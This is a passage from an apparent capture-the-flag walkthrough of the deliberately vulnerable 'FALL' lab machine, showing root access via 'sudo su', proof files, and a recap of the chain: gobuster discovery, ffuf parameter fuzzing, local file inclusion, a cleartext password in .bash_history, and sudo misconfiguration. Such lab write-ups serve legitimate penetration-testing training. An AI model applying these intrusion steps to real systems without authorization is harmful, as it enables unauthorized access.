 Nice! User `qiu` can run any commands as `root`!!

**Hence, we can easily escalate our privilege to `root` via switching user from `qiu` to `root`:**
```shell
[qiu@FALL ~]$ sudo su
[root@FALL qiu]# whoami; hostname; id; ip a
root
FALL
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:c8:91:5a brd ff:ff:ff:ff:ff:ff
    inet 10.69.96.73/24 brd 10.69.96.255 scope global dynamic noprefixroute ens33
       valid_lft 971sec preferred_lft 971sec
    inet6 fe80::af86:ce1d:cf2a:e830/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

I'm `root`! :D

```shell
[root@FALL qiu]# cat /root/remarks.txt 
Hi!

Congratulations on rooting yet another box in the digitalworld.local series!

You may have first discovered the digitalworld.local series from looking for deliberately vulnerably machines to practise for the PEN-200 (thank you TJ_Null for featuring my boxes on the training list!)

I hope to have played my little part at enriching your PEN-200 journey.

Want to find the author? Find the author on Linkedin by rooting other boxes in this series!
```

## Rooted

**proof.txt:**
```shell
[root@FALL ~]# cat proof.txt 
Congrats on a root shell! :-)
```

## Conclusion

What we've learned:

1. Content discovery via `gobuster`
2. Fuzzing GET parameter via `ffuf`
3. Exploiting Local File Inclusion vulnerability
4. Reading clear-text password in `.bash_history`
5. Vertical privilege escalation via misconfigurated Sudo permission